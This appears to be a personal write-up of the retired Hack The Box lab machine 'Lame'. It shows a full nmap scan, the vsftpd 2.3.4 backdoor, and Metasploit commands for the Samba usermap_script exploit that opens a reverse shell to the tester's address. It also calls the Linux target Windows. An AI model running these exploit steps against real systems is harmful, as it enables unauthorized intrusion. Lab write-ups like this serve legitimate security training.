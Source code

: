 Type: #linux 
Level: #easy
Link: <https://app.hackthebox.eu/machines/Lame>
Tags : #TCM
Tools: [[NMAP]] [[SMBCLIENT]] [[METASPLOIT]]	

## Pentesting of retired HTB VM Lame
### Following walkthrougt of TCM on udemy

Info on the VM : Windows with IP 10.10.10.3

First let's do a classic nmap scan  
`sudo nmap -A -T4 -p- 10.10.10.3`

NMAP Result :
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-07 12:46 EDT
Nmap scan report for 10.10.10.3
Host is up (0.042s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.19
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h01m46s, deviation: 2h49m43s, median: 1m45s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-04-07T12:51:22-04:00
| smb-security-mode:                                                                                                                                                                                                                
|   account_used: guest                                                                                                                                                                                                             
|   authentication_level: user                                                                                                                                                                                                      
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   46.51 ms 10.10.14.1
2   45.81 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 250.61 seconds
```

**Open ports**
```
Not shown: 996 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
3632/tcp open  distccd
```

**Information disclosure from NMAP**

`OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)`
`Samba smbd 3.0.20-Debian`
`vsFTPd 2.3.4`

**Analysing**

root ssh possible : 

![20210407185824.png](20210407185824.png)


Via metaspoilt we can see an exploit for this FTP version : 

**msf6 exploit(unix/ftp/vsftpd_234_backdoor**

![Pasted image 20210407191921.png](Pasted image 20210407191921.png)

smbclient show an open directory :
![Pasted image 20210407192314.png](Pasted image 20210407192314.png)

some googling show use this exploit usable with metasploit :

https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/

In msfconsole :

`use exploit/multi/samba/usermap_script`
`set rhosts 10.10.10.3`
`set lhost 10.10.14.19`

Shell poped

Flag obtained and submitted

#pwned 